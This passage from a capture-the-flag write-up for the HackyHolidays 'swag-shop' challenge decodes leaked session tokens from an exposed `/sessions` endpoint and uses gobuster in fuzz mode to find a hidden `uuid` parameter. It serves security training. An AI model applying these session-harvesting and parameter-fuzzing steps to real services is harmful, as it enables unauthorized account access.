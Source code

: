 - `/user` returns an error, if it's called without any parameter: `{"error":"Missing required fields"}`. Looks like it returns some information about a provided user.
- `/sessions` returns JSON object with a list of strings encoded in base64:

```json
{
  "sessions": [
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=",
"eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ=="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="
  ]
}
```

Each decoded session is JSON object with two fields: `user` and `cookie`. In most of them, `user` value is `null`, and only one has not null `user`:
```json
{
  "user": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "cookie": "NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="
}
```

Now, when we found user id, we can try to send it to `/api/user`, but we don't know the parameter name. To find it, let's run `gobuster` again, but now in *fuzz* mode:
```bash
$ gobuster fuzz -u https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=C7DCCE-0E0DAB-B20226-FC92EA-1B9043 -w raft-small-words.txt -b 400 -t 50
```

And it will find the valid parameter name:
```
Found: [Status=200] [Length=216] https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
```
